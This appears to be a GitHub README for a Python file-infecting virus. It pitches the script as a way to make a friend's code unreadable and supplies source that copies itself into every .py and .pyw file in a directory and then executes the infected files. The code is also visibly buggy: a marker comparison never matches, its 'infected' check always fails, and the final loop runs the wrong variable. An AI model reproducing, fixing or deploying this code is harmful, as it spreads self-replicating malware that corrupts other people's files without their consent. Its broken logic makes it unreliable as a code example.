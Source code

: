 # virus.py
## A Python file bomber
### How it works
So, ever got access to your friend's code, and want to make the code permently unreadable?
Well with this, you can, it's one of the fastest ways to do that, and it also spreads to other files in the dirertory.
### How to use it
You can just copy and paste the code below into the program or copy and paste the code in `main.py`, it's really that easy!
```python3
# VIRUS SAYS HI!
import sys
import glob
import os
print('Never gonna give you up\nNever gonna let you down\nNever gonna run around, and desert you\nNever gonna make you cry\nNever gonna say goodbye\nNever gonna tell a lie, or hurt you\n')
virus_code = []
with open(sys.argv[0], 'r') as f:
    lines = f.readlines()
self_replicating_part = False
for line in lines:
    if line == "# VIRUS SAYS HI!":
        self_replicating_part = True
    if not self_replicating_part:
        virus_code.append(line)
    if line == "# VIRUS SAYS BYE!\n":
        break
python_files = glob.glob('*.py') + glob.glob('*.pyw')
for file in python_files:
    with open(file, 'r') as f:
        file_code = f.readlines()
    infected = False
    for line in file_code:
        if line == "# VIRUS SAYS HI!\n":
            infected = False
            break
    if not infected:
        final_code = []
        final_code.extend(virus_code)
        final_code.extend('\n')
        final_code.extend(file_code)
        with open(file, 'w') as f:
            f.writelines(final_code)
for i in python_files:
  os.system(f'python3 {os.path.abspath(file)} $')
# VIRUS SAYS BYE!
```
### License
You can find the license in `LICENSE.md`
